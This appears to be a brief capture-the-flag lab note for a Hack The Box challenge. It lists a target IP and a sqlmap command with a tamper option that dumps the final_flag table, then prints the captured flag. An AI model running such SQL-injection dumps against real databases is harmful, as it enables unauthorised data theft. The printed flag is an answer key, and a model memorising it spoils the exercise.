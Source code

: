 # What's the contents of table final_flag?
# IP: 94.237.51.17:59870
We must to go the /shop directory an inspect the code:
sqlmap -r ./c.txt --threads 10 --tamper=between -T final_flag --dump --batch
HTB{n07_50_h4rd_r16h7?!}
